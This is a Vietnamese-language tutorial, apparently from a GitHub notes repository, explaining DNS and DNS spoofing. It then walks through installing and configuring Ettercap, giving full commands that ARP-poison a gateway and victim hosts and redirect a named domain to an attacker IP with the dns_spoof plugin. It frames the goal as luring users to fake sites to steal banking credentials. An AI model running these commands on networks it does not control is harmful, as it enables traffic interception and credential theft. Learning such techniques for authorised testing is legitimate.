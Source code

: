 # Ettercap

## Giả mạo DNS

Giả mạo DNS là một kỹ thuật MITM (Man-in-the-Middle) được sử dụng nhằm cung cấp thông tin DNS sai cho một host để khi người dùng duyệt đến một địa chỉ nào đó, ví dụ, www.facebook.com có IP XXX.XX.XX.XX, thì cố gắng này sẽ được gửi đến một địa chỉ www.facebook.com giả mạo cư trú ở địa chỉ IP YYY.YY.YY.YY, đây là địa chỉ mà kẻ tấn công đã tạo trước để đánh cắp các thông tin tài khoản ngân hàng trực tuyến từ người dùng.

## Truyền thông DNS

Giao thức Domain Naming System (DNS) như được định nghĩa trong RFC 1034/1035 có thể được xem như là một trong những giao thức quan trọng nhất được sử dụng trong Internet. Nói ngắn ngọn để dễ hiểu, bất cứ khi nào bạn đánh một địa chỉ web chẳng hạn như http://www.google.com vào trình duyệt, yêu cầu DNS sẽ được đưa đến máy chủ DNS để tìm ra địa chỉ IP tương xứng với tên miền mà bạn vừa nhập. Các router và các thiết bị kết nối Internet sẽ không hiểu google.com là gì, chúng chỉ hiểu các địa chỉ chẳng hạn như 74.125.95.103.

Máy chủ DSN làm việc bằng cách lưu một cơ sở dữ liệu các entry (được gọi là bản ghi tài nguyên) địa chỉ IP để bản đồ hóa tên DNS, truyền thông các bản ghi tài nguyên đó đến máy khách và đến máy chủ DNS khác. Kiến trúc máy chủ DNS trong toàn doanh nghiệp và Internet là một thứ khá phức tạp. Như một vấn đề của thực tế, bạn có thể hình dung chúng như các quyển sổ chuyên dụng cho kiến trúc DNS.

![DNS spoofing](/images/DNSSpoofing1.jpg)

DNS hoạt động theo hình thức truy vấn và đáp trả (query/response). Một máy khách cần phân giải DNS cho một địa chỉ IP nào đó sẽ gửi đi một truy vấn đến máy chủ DNS, máy chủ DNS này sẽ gửi thông tin được yêu cầu trong gói đáp trả của nó. Đứng trên phối cảnh máy khách, chỉ có hai gói xuất hiện lúc này là truy vấn và đáp trả.

Kịch bản này sẽ có đôi chút phức tạp khi xem xét đến sự hồi quy DNS. Nhờ có cấu trúc thứ bậc DNS của Internet, các máy chủ DNS cần có khả năng truyền thông với nhau để đưa ra câu trả lời cho các truy vấn được đệ trình bởi máy khách. Nếu tất cả đều diễn ra thuận lợi như mong đợi, máy chủ DNS bên trong của chúng ta sẽ biết tên để bản đồ hóa địa chỉ IP cho máy chủ bên trong mạng nội bộ, tuy nhiên không thể mong đợi nó biết địa chỉ tương quan giữa Google hoặc Dell. Đây là nơi sự đệ quy đóng vai trò quan trọng. Sự đệ quy diễn ra khi một máy chủ DNS truy vấn máy chủ DNS khác với tư cách máy khách tạo yêu cầu.

## Giả mạo DNS

Có nhiều cách để có thể thực hiện vấn đề giả mạo DNS. 

Mỗi truy vấn DNS được gửi qua mạng đều có chứa một số nhận dạng duy nhất, mục đích của số nhận dạng này là để phân biệt các truy vấn và đáp trả chúng. Điều này có nghĩa rằng nếu một máy tính đang tấn công của chúng ta có thể chặn một truy vấn DNS nào đó được gửi đi từ một thiết bị cụ thể, thì tất cả những gì chúng ta cần thực hiện là tạo một gói giả mạo có chứa số nhận dạng đó để gói dữ liệu đó được chấp nhận bởi mục tiêu.

Chúng ta sẽ hoàn tất quá trình này bằng cách thực hiện hai bước với một công cụ đơn giản. Đầu tiên, chúng ta cần giả mạo ARP cache thiết bị mục tiêu để định tuyến lại lưu lượng của nó qua host đang tấn công của mình, từ đó có thể chặn yêu cầu DNS và gửi đi gói dữ liệu giả mạo. Mục đích của kịch bản này là lừa người dùng trong mạng mục tiêu truy cập vào website độc thay vì website mà họ đang cố gắng truy cập. Để rõ hơn bạn có thể tham khảo thêm hình tấn công bên dưới.

![DNS spoofing 2](/images/DNSSpoofing2.jpg)

Có một số công cụ khác có thể được sử dụng để thực hiện hành động giả mạo DNS. Đó là `Ettercap`

## Cài đặt

```shell
# Console
$ sudo apt-get install ettercap-text-only

# GUI
$ sudo apt-get install ettercap-graphical
```

## Sử dụng

* Chạy với giao diện đồ họa

```shell
$ sudo ettercap -G
```

![Ettercap GUI](/images/ettercapgui.jpg)

* Chạy với GUI terminal

```shell
$ sudo ettercap -C
```

![Ettercap GUI console](/images/ettercapconsole.png)

## Configuration

* Có 2 file cần lưu ý là `etter.conf` và `etter.dns` mặc định khi cài đặt sẽ nằm trong folder `/etc/ettercap`. Nhưng nếu không biết ở thư mục nào thì có thể dùng lệnh `locate` để tìm.
* Mở file `etter.conf` và sửa thuộc tính `ec_uid` và `ec_gid` là 0, uncommand phần iptables của Linux là `redir_command_on và redir_command_off`
* Với file `etter.dns` là file chứa các domain sẽ điều hướng sang ip address tương ứng. Ví dụ

```
# Chuyển tên miền phimmoi.net sang ip 192.168.1.3

phimmoi.net	A	192.168.1.3
*.phimmoi.net	A	192.168.1.3
```

* Sau khi cấu hình xong thì chạy ettercap bằng lệnh sau

```shell
# Template
$ sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof //GATEWAY// //TARGET//

# e.g: Gateway -> 192.168.1.1. Victim -> 192.168.1.10
$ sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof //192.168.1.1// //192.168.1.10//

$ sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof //192.168.1.1// //192.168.1.10-20/
```

* Các tham số

  * -T – Chỉ định sử dụng giao diện văn bản
  * -q – Chạy các lệnh trong chế độ “yên lặng” để các gói dữ liệu đã được capture không hiển thị trên màn hình.
  * -P dns_spoof – Chỉ định sử dụng plug-in dns_spoof
  * -M arp – Khởi tạo tấn công MITM giả mạo ARP để chặn các gói dữ liệu giữa các host.

## Ref

* https://null-byte.wonderhowto.com/how-to/tutorial-dns-spoofing-0167796/
* https://www.youtube.com/watch?v=Y3j-rlA0CbE
* https://github.com/Ettercap/ettercap
* https://quantrimang.com/tim-hieu-ve-tan-cong-man-in-the-middle-gia-mao-dns-66935